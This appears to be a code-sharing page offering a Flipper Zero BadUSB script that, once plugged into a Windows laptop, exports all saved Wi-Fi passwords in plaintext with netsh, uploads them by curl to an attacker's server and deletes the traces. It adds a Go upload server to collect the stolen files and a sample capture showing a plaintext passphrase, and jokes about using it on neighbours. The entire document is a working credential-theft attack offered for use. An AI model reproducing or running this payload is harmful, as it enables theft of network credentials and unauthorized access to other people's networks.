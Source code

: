 BadUSB flipper script file :
Because getting on your wifi is just the beginning
----



`REM Wifi password stealer
DELAY 100
GUI r
DELAY 100
STRING cmd
ENTER
DELAY 1000
STRING cd %temp%
ENTER
DELAY 1000
REM exports the wifi passwords as XML
STRING netsh wlan export profile key=clear
ENTER
DELAY 1000
REM put all in 1 file
STRING type *.xml >> flipme.xml
ENTER
DELAY 1000
REM copys the files to host
STRING curl -X POST -F "file=@%temp%/flipme.xml" http://YOURSERVE:PORT/upload ENTER
DELAY 1000
STRING del flipme.xml
ENTER
DELAY 1000
STRING exit
ENTER`
----

Run this fun go uploader that saves the files with timestamp
GoLang because this can be run on any linux box.

package main
import (
 "fmt"
 "io"
 "net/http"
 "os"
 "path/filepath"
 "time"
)
const (
 port = 8080
 uploadPath = "./uploads"
)
func main() {
 if err := os.MkdirAll(uploadPath, os.ModePerm); err != nil {
 fmt.Println("Error creating upload directory:", err)
 return
 }
 http.HandleFunc("/upload", uploadHandler)
 go func() {
 if err := http.ListenAndServe(fmt.Sprintf(":%d", port), nil); err != nil {
 fmt.Println("Error starting server:", err)
 }
 }()
 fmt.Printf("Server listening on :%d\n", port)
 select {}
}
func uploadHandler(w http.ResponseWriter, r *http.Request) {
 if r.Method != http.MethodPost {
 http.Error(w, "Method not allowed", http.StatusMethodNotAllowed)
 return
 }
 err := r.ParseMultipartForm(10 << 20) // 10 MB limit
 if err != nil {
 http.Error(w, "Unable to parse form", http.StatusBadRequest)
 return
 }
 file, handler, err := r.FormFile("file")
 if err != nil {
 http.Error(w, "Unable to get file from form", http.StatusBadRequest)
 return
 }
 defer file.Close()
 fileName := fmt.Sprintf("%d_%s", time.Now().UnixNano(), handler.Filename)
 filePath := filepath.Join(uploadPath, fileName)
 out, err := os.Create(filePath)
 if err != nil {
 http.Error(w, "Unable to create file on server", http.StatusInternalServerError)
 return
 }
 defer out.Close()
 _, err = io.Copy(out, file)
 if err != nil {
 http.Error(w, "Error copying file content", http.StatusInternalServerError)
 return
 }
 w.Write([]byte("File uploaded successfully."))
}
----

Connect Flipper on laptop-usb Click and GO! (2 seconds?)
Below saved file of all found wifi passwords with plaintext passwords on my server, so if you see a bald bearded guy around your house.... beware.


flipmeister@server:~/tmp/uploads$ cat 1706822308924902098_flipme.xml
<WLANProfile xmlns="[What's New in Networking | Microsoft Learn](http://www.microsoft.com/networking/WLAN/profile/v1)">
 <name>MyISP</name>
 <SSIDConfig>
 <SSID>
 <hex>5A6967676F4E6F476F</hex>
 <name>MyISP</name>
 </SSID>
 </SSIDConfig>
 <connectionType>ESS</connectionType>
 <connectionMode>auto</connectionMode>
 <MSM>
 <security>
 <authEncryption>
 <authentication>WPA2PSK</authentication>
 <encryption>AES</encryption>
 <useOneX>false</useOneX>
 </authEncryption>
 <sharedKey>
 <keyType>passPhrase</keyType>
 <protected>false</protected>
 <keyMaterial>MyWifiPassword!</keyMaterial>
 </sharedKey>
 </security>
 </MSM>
 <MacRandomization xmlns="http://www.microsoft.com/networking/WLAN/profile/v3">
 <enableRandomization>false</enableRandomization>
 <randomizationSeed>943798801</randomizationSeed>
 </MacRandomization>
</WLANProfile>






